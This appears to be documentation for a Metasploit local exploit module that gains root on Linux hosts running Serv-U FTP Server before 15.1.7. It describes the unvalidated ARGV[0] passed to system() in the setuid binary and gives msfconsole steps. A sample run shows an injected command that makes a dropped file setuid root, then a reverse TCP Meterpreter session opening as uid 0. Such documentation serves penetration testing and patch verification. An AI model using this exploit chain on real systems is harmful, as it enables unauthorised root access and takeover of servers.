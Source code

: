 ## Description

  This module attempts to gain root privileges on systems running
  Serv-U FTP Server versions prior to 15.1.7.

  The `Serv-U` executable is setuid `root`, and uses `ARGV[0]`
  in a call to `system()`, without validation, when invoked with
  the `-prepareinstallation` flag, resulting in command execution
  with root privileges.


## Vulnerable Application

  [Serv-U FTP Server](https://www.serv-u.com/ftp-server-software)
  is an FTP server for Linux and Windows; however, this module
  targets only Linux systems.

  This module has been tested successfully on:

  * Serv-U FTP Server version 15.1.6 (x64) on Debian 9.6 (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/servu_ftp_server_prepareinstallation_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SERVU_PATH**

  Path to `Serv-U` executable (default: `/usr/local/Serv-U/Serv-U`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### Debian 9.6 (x64)

  ```
  msf exploit(multi/handler) > back
  msf > use exploit/linux/local/servu_ftp_server_prepareinstallation_priv_esc 
  msf exploit(linux/local/servu_ftp_server_prepareinstallation_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/servu_ftp_server_prepareinstallation_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/servu_ftp_server_prepareinstallation_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] bash shell is available
  [+] /usr/local/Serv-U/Serv-U is executable
  [+] /usr/local/Serv-U/Serv-U is setuid
  [*] Writing '/tmp/.24HnCiwSby' (277 bytes) ...
  [*] Executing command: bash -c 'exec -a "\";chown root /tmp/.24HnCiwSby;chmod u+s /tmp/.24HnCiwSby;chmod +x /tmp/.24HnCiwSby\"" /usr/local/Serv-U/Serv-U -prepareinstallation'
  [+] /tmp/.24HnCiwSby setuid root successfully
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.250

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.250:58662) at 2019-06-28 23:46:48 -0400
  [-] Failed to delete /tmp/.24HnCiwSby: stdapi_fs_delete_file: Operation failed: 1

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > 
  ```

